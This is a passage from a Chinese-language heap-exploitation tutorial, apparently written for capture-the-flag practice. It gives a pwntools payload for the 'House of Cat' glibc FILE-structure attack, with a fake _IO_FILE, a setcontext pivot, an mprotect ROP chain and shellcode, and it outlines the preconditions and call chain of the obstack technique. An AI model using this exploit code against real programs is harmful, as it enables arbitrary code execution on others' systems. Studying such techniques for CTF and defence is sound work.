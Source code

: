 Shellcode方式

```python
def house_of_cat(fake_IO_file_addr):
    payload = flat(
        {
            0x20: [
                    0, 0, 
                    1, 1,
                    fake_IO_file_addr+0x150,    # rdx
                    setcontext + 61
                ],
            0x58: 0,    # chain
            0x78: _IO_stdfile_2_lock,   # _lock
            0x90: fake_IO_file_addr + 0x30,  # _IO_wide_data
            0xb0: 1,    # _mode
            0xc8: _IO_wfile_jumps + 0x30,   # fake_IO_wide_jumps
            0x100: fake_IO_file_addr + 0x40,
            0x140: {
                0xa0: [fake_IO_file_addr + 0x210, ret]
            },
            0x200: [
                pop_rdi_ret, fake_IO_file_addr >> 12 << 12,
                pop_rsi_ret, 0x1000,
                pop_rdx_rbx_ret, 7, 0,
                pop_rax_ret, 10,    # mprotect
                syscall_ret,
                fake_IO_file_addr+0x280+0x10,
            ],
            0x280: shellcode,
        }, filler='\x00'
    )

    return payload
```

obstack利用
---------

> 本文讨论obstack这条利用链在libc2.35的应用  
> libc2.37 去除`_IO_obstack_jumps`这个vtable，但是依然存在obstack这个结构体。  
> glibc-2.37开始这个方法的调用链为： `__printf_buffer_as_file_overflow` -&gt; `__printf_buffer_flush` -&gt; `__printf_buffer_flush_obstack` -&gt; `__obstack_newchunk`  
> 高版本利用方法也由[7resp4ss师傅](https://bbs.kanxue.com/thread-276471.htm)提出。

**条件：**  
1.任意写一个可控地址或劫持 `_IO_list_all`。(如`large bin attack`、`tcache stashing unlink attack`、`fastbin reverse into tcache`)  
2.能够触发`IO`流（`FSOP`或触发`__malloc_assert`，或者程序中存在`puts`等能进入`IO`链的函数），执行`IO`相关函数。  
3.能够泄露`堆地址`和`libc`基址。  
**调用链：** **\_IO\_obstack\_xsputn** -&gt; **\_obstack\_newchunk** -&gt; **CALL\_CHUNKFUN** -&gt; **chunkfun**

```php
_IO_obstack_xsputn
            obstack_grow
                _obstack_newchunk
                        CALL_CHUNKFUN(一个宏定义)
                        (*(h)->chunkfun)((h)->extra_arg, (size))
```
